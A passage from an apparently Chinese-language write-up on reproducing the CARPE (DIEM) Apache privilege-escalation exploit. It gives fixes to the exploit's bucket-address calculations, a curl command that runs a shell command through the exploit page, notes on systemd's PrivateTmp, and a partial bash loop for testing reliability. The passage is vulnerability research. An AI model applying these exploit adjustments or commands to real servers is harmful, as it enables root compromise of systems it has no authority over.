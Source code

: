 ```
<span class="x">$all_buckets = $i - 0x10 + 0x38000;</span> 
```

第二个计算没必要这么复杂，而且在我测试的版本中还是算的错误的地址，直接改成：

```
<span class="x">$bucket_index = $bucket_index_middle;</span> 
```

### ubuntu中的一个坑

我的payload是：`curl "http://www.0-sec.org/cfreal-carpediem.php?cmd=id>/tmp/2323232"`

表面上看是执行成功了，但是却并没有在/tmp目录下发现2323232文件，经过随后的研究发现，systemd重定向了apache的tmp目录，执行下`$find /tmp -name "2323232"`就找到文件了，不过只有root用户能访问。如果不想让systemd重定向tmp目录也简单：

```
$ cat /lib/systemd/system/apache2.service 
<span class="o">[</span>Unit<span class="o">]</span>
<span class="nv">Description</span><span class="o">=</span>The Apache HTTP Server
<span class="nv">After</span><span class="o">=</span>network.target remote-fs.target nss-lookup.target

<span class=“o”>[</span>Service<span class=“o”>]</span>

<span class=“nv”>Type</span><span class=“o”>=</span>forking

<span class=“nv”>Environment</span><span class=“o”>=</span><span class=“nv”>APACHE_STARTED_BY_SYSTEMD</span><span class=“o”>=</span><span class=“nb”>true</span>

<span class=“nv”>ExecStart</span><span class=“o”>=</span>/usr/sbin/apachectl start

<span class=“nv”>ExecStop</span><span class=“o”>=</span>/usr/sbin/apachectl stop

<span class=“nv”>ExecReload</span><span class=“o”>=</span>/usr/sbin/apachectl graceful

<span class=“nv”>PrivateTmp</span><span class=“o”>=</span><span class=“nb”>false</span>

<span class=“nv”>Restart</span><span class=“o”>=</span>on-abort `<span class=“o”>[</span>Install<span class=“o”>]</span>

<span class=“nv”>WantedBy</span><span class=“o”>=</span>multi-user.target` 
```

### 关于成功率的说法

在exp的注释中看到了说该利用没法100%成功，有失败的概率，所以我写了个脚本进行测试：

```
<span class="c1">#!/bin/bash</span>

<span class=“nv”>SUCC</span><span class=“o”>=</span><span class=“m”>0</span>

<span class=“nv”>COUNT</span><span class=“o”>=</span><span class=“m”>0</span>

<span class=“k”>for</span> i in <span class=“k”>$(</span>seq <span class=“m”>1</span> <span class=“m”>20</span><span class=“k”>)</span>

<span class=“k”>do</span>

<span class=“nb”>let</span> <span class=“nv”>COUNT</span><span class=“o”>+=</span><span class=“m”>1</span>

/etc/init.d/apache2 stop

sleep <span class=“m”>1</span>

```